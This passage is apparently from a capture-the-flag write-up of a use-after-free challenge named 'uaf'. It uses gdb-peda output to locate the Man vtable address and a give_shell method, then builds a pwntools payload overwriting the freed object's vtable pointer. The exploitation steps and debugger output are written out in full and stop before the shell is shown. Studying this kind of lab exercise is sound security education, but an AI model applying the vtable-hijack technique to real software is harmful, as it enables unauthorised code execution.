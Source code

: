 We can break right after we create the Man, and take another look:

```python
gdb-peda$ break *0x400f18
gdb-peda$ c
Continuing.
[----------------------------------registers-----------------------------------]
RAX: 0x18d5c50 --> 0x401570 --> 0x40117a (<_ZN5Human10give_shellEv>:	push   rbp)
RBX: 0x18d5c50 --> 0x401570 --> 0x40117a (<_ZN5Human10give_shellEv>:	push   rbp)
...
Breakpoint 2, 0x0000000000400f18 in main ()
```

This looks like what we'd want: `0x401570`.

Let's do the same for the Woman.

```python
...
RAX: 0x18d5ca0 --> 0x401550 --> 0x40117a (<_ZN5Human10give_shellEv>:	push   rbp)
RBX: 0x18d5ca0 --> 0x401550 --> 0x40117a (<_ZN5Human10give_shellEv>:	push   rbp)
...
```

After some googling, looks like there is a [info vtbl](https://visualgdb.com/gdbreference/commands/info_vtbl) command, which will show the Virtual Method table of a given object. However, that doesn't seem to help us at all, since no matter what it doesn't recognize the variables for the Human objects during debugging.

A workaround may be something like this:

```python
info variables .*Man
All variables matching regular expression ".*Man":

Non-debugging symbols:
0x0000000000401560  vtable for Man
0x00000000004015c8  typeinfo name for Man
0x00000000004015d0  typeinfo for Man
```

And then we can inspect the memory location manually:

```python
x/12a 0x0000000000401560
0x401560 <_ZTV3Man>:	0x0	0x4015d0 <_ZTI3Man>
0x401570 <_ZTV3Man+16>:	0x40117a <_ZN5Human10give_shellEv>	0x4012d2 <_ZN3Man9introduceEv>
0x401580 <_ZTV5Human>:	0x0	0x4015f0 <_ZTI5Human>
0x401590 <_ZTV5Human+16>:	0x40117a <_ZN5Human10give_shellEv>	0x401192 <_ZN5Human9introduceEv>
0x4015a0 <_ZTS5Woman>:	0x6e616d6f5735	0x0
0x4015b0 <_ZTI5Woman>:	0x602390 <_ZTVN10__cxxabiv120__si_class_type_infoE@@CXXABI_1.3+16>	0x4015a0 <_ZTS5Woman>
```

So indeed, `0x401570` is the addresses we want (can see it has two virtual function references, one for `give_shell` and the other for `introduce`). If we try to use that:

```python
python -c 'from pwn import *; print(p64(0x401570, endian="little"))' > /tmp/z3n0
./uaf 8 /tmp/z3n0
1. use
2. after
3. free
3
1. use
2. after
3. free
2
your data is allocated
1. use
```